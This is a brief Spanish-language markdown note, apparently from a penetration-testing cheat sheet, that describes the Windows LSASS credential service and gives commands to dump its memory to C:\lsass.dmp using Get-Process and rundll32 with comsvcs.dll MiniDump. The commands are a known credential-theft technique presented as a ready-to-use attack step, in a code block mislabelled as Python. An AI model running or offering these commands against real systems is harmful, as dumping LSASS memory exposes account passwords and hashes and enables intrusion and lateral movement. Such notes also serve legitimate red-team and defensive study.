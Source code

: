 # LSASS
## Descripción
SASS es un servicio crítico que desempeña un papel central en la gestión de credenciales y los procesos de autenticación en todos los sistemas operativos Windows

### Crear lsass.dmp usando powershell
```python
Get-Process lsass (obtener el PID del proceso lsass)
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

